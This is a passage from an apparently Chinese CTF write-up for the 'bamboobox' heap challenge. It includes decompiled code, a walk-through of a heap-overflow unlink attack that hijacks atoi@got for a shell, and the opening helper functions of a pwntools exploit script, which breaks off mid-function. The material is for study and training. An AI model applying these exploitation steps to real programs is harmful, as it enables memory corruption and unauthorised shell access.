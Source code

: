 ```c++
      *(_BYTE *)(*(_QWORD *)&itemlist[4 * v2 + 2] + (signed int)read(0, *(void **)&itemlist[4 * v2 + 2], v0)) = 0;
    }
    else
    {
      puts("invaild index");
    }
  }
  else
  {
    puts("No item in the box");
  }
  return __readfsqword(0x28u) ^ v5;
}
```

该题也是采用全局变量管理堆块指针，将申请chunk的size和对应指针依次存放在bss段。也就是说，如果我们能够修改bss段的指向chunk的指针为任意地址，我们也就可以利用show和edit函数实现任意地址读写。

### 利用 ###

根据上述分析，要实现bss段修改，结合该题的堆溢出漏洞，构造一个unlink利用来使得bss段上的chunk指针向前移动0x18个byte，然后修改chunk指针，实现任意地址读写，从而leak处libc，再劫持atoi@got（malloc_hook和free_hook似乎也可以）为one_gadget从而getshell。

注意unlink利用有如下要点：

- 需要在free时触发前向或后向合并，条件有：
  - free的堆块位于unsorted bin范围内（64位最小为0x80）
  - free的堆块的前一个或后一个堆块未被使用（被free），这根据当前chunk的prev_inuse位判断，并且需要构造prev_size，在当前chunk的地址 - prev_size的位置布置一个fake chunk
  - fake chunk需要保证fake chunk的next chunk的prev_size和自己的size相同
- 野指针需要指向被合并的fake chunk的user_data区间，然后从user_data部分开始构造fake chunk

```python
from pwn import *
# from LibcSearcher import *

libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
context.log_level = "debug"
elf = ELF("./bamboobox")
p = process("./bamboobox")

def add(size, name):
	p.recvuntil("choice:")
	p.sendline("2")
	p.recvuntil("name:")
	p.sendline(str(size))
	p.recvuntil("item:")
	p.sendline(name)

def free(index):
	p.recvuntil("choice:")
	p.sendline("4")
	p.recvuntil("item:")
	p.sendline(str(index))

def show(index):
	p.recvuntil("choice:")
	p.sendline("1")

def edit(index, size, name):
	p.recvuntil("choice:")
	p.sendline('3')
	p.recvuntil("item:")
	p.sendline(str(index))
```